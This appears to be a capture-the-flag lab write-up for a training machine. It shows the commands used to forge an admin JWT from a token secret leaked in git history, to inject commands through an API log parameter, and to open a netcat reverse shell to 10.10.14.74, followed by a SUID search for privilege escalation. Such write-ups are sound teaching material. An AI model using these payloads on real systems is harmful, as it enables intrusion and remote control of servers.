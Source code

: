 # User

## Enumeration

[comment]: <> (Nmap and Gobuster results)

## Website Enumeration

This is a website of some kind of an open-source API with a live demo mode, which heads to `api/priv`. There is a documentation page, that has a lot of information about how the API works.

First, in the Log In section, there is an example of a log in request with an email and a password and I try to see, if this happens to be a valid admin account.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "root@dasith.works",
"password": "Kekc8swFgD6zU"
}'
```
No luck here unfortunately. 
So I proceed to register a new user, using the information given.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/register' --data '{
"name": "testuser",
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with a succesfull response `{"user":"testuser"}`. I try to log in with these credentials to see that it really works.
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with succes and response is `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw`. This is the JWT token that authenticates user "testuser".

Now I try to access `api/priv`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw' -i 'http://10.10.11.120/api/priv
```
and response is `{"role":{"role":"you are normal user","desc":"testuser"}}`. So I logged in as a user, but I need to find an other way to gain access as admin. I'm going to keep looking on the website for any other information, that could be helpful.

I find out that, I can download the source code, which can be really useful.

## Source Code Examination
[comment]: <> (Source code examination)


Using jwt.io and the JWT token I got with "testuser", I will try to forge a new one with `username="theadmin"` and the `TOKEN_SECRET=secret`(email doesn't really matter, since it checks only if `username="theadmin"`).
![jwtsecret](img/jwtfake.png)
Then I try to login with forged JWT token with `TOKEN_SECRET=secret`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.DTKfqkj0GUAI46OLUGTwoOnBEgbQ0PkWk9pVMUz95g4' -i 'http://10.10.11.120/api/priv'
```
But it's rejected. This means, that the token secret has been changed, before the source code was uploaded.

Look in `.git` and find file `logs/HEAD` with commit history and a commit with description `commit: removed .env for security reasons`
Go back to that commit with:
![gitdiff](img/gitdiff.png)


Now I can forge the JWT token, this time with the real `TOKEN_SECRET`.
![jwtlegit](img/jwtlegit.png)

and login with it
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/priv'
```

I am now authenticated as the admin! 
 `{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

I have to find a way to make use of this, in order to get a reverse shell.

```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;whoami'
```

and response `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`

```
curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204242%20%3E%2Ftmp%2Ff'
```

# PrivEsc

`find / -type f -perm -u=s 2>/dev/null`

Find `/opt/count` and visiting `/opt` there is a .c file also.


`strings CoreDump`





